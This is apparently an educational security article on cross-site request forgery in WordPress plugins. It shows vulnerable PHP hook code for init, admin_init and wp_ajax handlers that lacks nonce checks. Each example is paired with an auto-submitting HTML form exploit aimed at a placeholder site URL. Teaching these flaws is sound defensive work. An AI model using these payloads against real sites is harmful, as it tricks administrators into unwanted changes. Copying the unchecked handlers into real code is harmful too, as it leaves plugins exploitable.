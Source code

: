 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```



## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against CSRF"
  href="/academy/wordpress/securing-code/cross-site-request-forgery/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```